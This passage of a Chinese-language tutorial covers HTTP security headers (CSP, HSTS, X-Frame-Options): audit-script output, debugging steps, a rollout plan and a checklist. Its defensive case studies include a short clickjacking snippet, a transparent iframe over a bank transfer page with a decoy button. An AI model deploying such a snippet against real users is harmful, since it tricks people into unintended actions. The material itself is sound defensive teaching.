    print(f"\n  评分: {score}/{max_score} ({pct}%) → 等级: {grade}")

    if issues:
        print(f"\n  建议修复:")
        for i, issue in enumerate(issues, 1):
            print(f"  {i}. {issue}")

    return {'score': score, 'max': max_score, 'grade': grade, 'issues': issues}


if __name__ == '__main__':
    urls = sys.argv[1:] or ['https://example.com']
    for url in urls:
        audit(url)
```

#### 11.4 浏览器控制台验证

在浏览器开发者工具中可以实时检查 CSP 是否生效：

```javascript
// 在 Console 中输入以下命令查看 CSP 策略
// Chrome: chrome://net-internals/#events → 搜索 CSP
// Firefox: about:config 中搜索 security.csp

// 验证 nonce 是否正确设置
document.querySelector('script[nonce]')?.getAttribute('nonce')

// 验证 CSP 阻止了内联脚本
// 如果 CSP 配置正确，以下代码会被阻止
// <script>document.write('blocked')</script>
// 控制台会输出: Refused to execute inline script because it violates
// the following Content Security Policy directive: "script-src 'self'"
```

---

### 12. 常见误区与避坑指南

#### 12.1 高频错误

| 误区 | 正确做法 | 影响 |
|------|----------|------|
| CSP 中使用 `'unsafe-inline'` | 使用 nonce 或 hash 机制 | 内联脚本可被 XSS 利用 |
| CSP 中使用 `'unsafe-eval'` | 避免 `eval()`，改用安全替代 | 运行时代码注入风险 |
| HSTS max-age 设置太短（< 1天） | 至少 31536000 秒（1年） | 浏览器频繁重新获取，保护不连续 |
| 设置 HSTS 后忘记提交 Preload | 提交前确认所有子域支持 HTTPS | 子域名 HTTP 访问不可用 |
| 只设置 `X-Frame-Options` 不设置 `frame-ancestors` | 两者都配置 | 旧浏览器保护不完整 |
| CSP 使用 Report-Only 不切换到强制模式 | 观察期结束后必须切换 | 违规行为无阻断效果 |
| 在 `location` 块用 `add_header` 覆盖全局 | 重新声明或使用 map 指令 | 局部丢失全局安全头部 |
| 为所有页面设置相同 CSP | 按页面类型定制策略 | 过严导致功能异常，过宽失去保护 |

#### 12.2 CSP 调试技巧

CSP 配置错误会导致页面功能异常（脚本不执行、样式不加载），以下是排查流程：

CSP 调试流程：

1. 开启 Report-Only 模式
   Content-Security-Policy-Report-Only: ...

2. 查看浏览器控制台
   → 所有 CSP 违规都会在 Console 中显示为错误
   → 错误信息包含被阻止的资源 URL 和违规的指令

3. 检查 CSP 报告端点
   → 接收并分析 JSON 格式的违规报告
   → 按频率和来源排序，优先修复高频违规

4. 逐步添加白名单
   → 不要一次性配置所有白名单
   → 每次只添加一条，测试功能是否正常
   → 使用 nonce 替代 'unsafe-inline'

5. 常见错误修复
   → "Refused to load the script" → 添加 script-src 白名单
   → "Refused to load the image" → 添加 img-src 白名单
   → "Refused to connect" → 添加 connect-src 白名单
   → "Refused to execute inline script" → 使用 nonce
   → "Refused to apply inline style" → 使用 nonce 或 unsafe-inline

#### 12.3 渐进式部署策略

不要一步到位配置所有安全头部，建议分阶段实施：

第 1 阶段（第 1 天）：最低风险
  ✅ X-Content-Type-Options: nosniff
  ✅ X-XSS-Protection: 0
  → 这两个头部零副作用，立即上线

第 2 阶段（第 1 周）：点击劫持防护
  ✅ X-Frame-Options: DENY
  ✅ CSP: frame-ancestors 'none'
  → 检查页面是否需要被 iframe 嵌入

第 3 阶段（第 2-4 周）：Referer 和功能控制
  ✅ Referrer-Policy: strict-origin-when-cross-origin
  ✅ Permissions-Policy: 禁用不需要的功能
  → 观察是否有功能受影响

第 4 阶段（第 4-8 周）：CSP 全量部署
  ✅ 先 Report-Only 运行 2 周
  ✅ 修复所有违规后切换为强制模式
  → 这是工作量最大的阶段，需要前端配合

第 5 阶段（第 8-12 周）：HSTS 强化
  ✅ 短 max-age 验证
  ✅ 逐步延长到 2 年
  ✅ 提交 Preload List
  → 需要确保所有子域名支持 HTTPS

---

### 13. 真实案例：安全头部防御实战

#### 13.1 案例一：CSP 阻止存储型 XSS

场景：论坛网站评论区被注入恶意脚本

攻击 payload：


无 CSP 时：
  → 所有浏览该评论的用户 Cookie 被窃取
  → 影响范围：全站活跃用户
  → 数据泄露：Session Token、用户信息

有 CSP（script-src 'self' 'nonce-xxx'）时：
  → 恶意脚本因缺少正确 nonce 被阻止
  → 控制台报错: Refused to execute inline event handler
  → 用户完全不受影响

结论：CSP 是存储型 XSS 的终极防线

#### 13.2 案例二：HSTS 防止咖啡厅中间人攻击

场景：用户在公共 WiFi 下访问银行网站

攻击流程（无 HSTS）：
  1. 用户输入 bank.com（默认 HTTP）
  2. 攻击者在中间拦截请求
  3. 返回伪造的 HTTP 登录页面
  4. 用户输入账号密码 → 被窃取

攻击流程（有 HSTS + Preload）：
  1. 用户输入 bank.com
  2. 浏览器在发请求前就检查预加载列表
  3. 发现 bank.com 在 HSTS Preload List 中
  4. 直接使用 HTTPS 连接
  5. 攻击者无法降级 → 攻击失败

结论：HSTS Preload 解决了"首次访问"安全问题

#### 13.3 案例三：X-Frame-Options 阻止点击劫持

场景：钓鱼邮件中嵌入了银行转账页面的透明 iframe

攻击：
  攻击者页面包含：
  <iframe src="https://bank.com/transfer" style="opacity:0; position:absolute;">
  <button>点击领取 100 元优惠</button>

无 X-Frame-Options：
  → iframe 正常加载银行页面
  → 用户点击按钮 → 实际点击了银行的"确认转账"

有 X-Frame-Options: DENY：
  → iframe 加载失败
  → 浏览器控制台报错：X-Frame-Options refused
  → 用户看到空白 iframe，攻击无效

有 CSP frame-ancestors 'none'：
  → 同上，且兼容更多浏览器

---

### 14. 安全头部配置检查清单

上线前必检项目：

[ ] X-Content-Type-Options: nosniff
[ ] X-Frame-Options: DENY（或 SAMEORIGIN）
[ ] Content-Security-Policy: 已配置且不含 'unsafe-eval'
[ ] Strict-Transport-Security: max-age >= 31536000
[ ] Referrer-Policy: strict-origin-when-cross-origin（或更严格）
[ ] Permissions-Policy: 禁用了摄像头、麦克风、定位等
[ ] X-XSS-Protection: 0
[ ] Server 头已隐藏（server_tokens off / ServerTokens Prod）
[ ] X-Powered-By 头已移除
[ ] 敏感页面（登录/支付/管理）设置了 no-store 缓存策略
[ ] CSP 报告端点已部署并接收违规报告
[ ] 所有安全头部通过 securityheaders.com 检测达到 A 级

---

### 15. 本节小结

HTTP 安全头部是 Web 安全体系中**性价比最高**的防御措施：

- **零成本**：只需配置 Web 服务器，无需修改应用代码
- **即时生效**：配置变更后下一个请求立即受保护
- **纵深防御**：即使应用有漏洞，安全头部仍能提供兜底保护
- **自动化友好**：可通过 IaC、配置管理工具统一管理

核心原则：**先上线无风险头部，再逐步收紧 CSP，最后启用 HSTS Preload**。安全头部不是一劳永逸的配置，需要随着应用演进持续调整和优化。

掌握安全头部配置，是每一位 Web 开发者和运维工程师的必备技能，也是从"写能用的代码"到"写安全的代码"的关键一步。
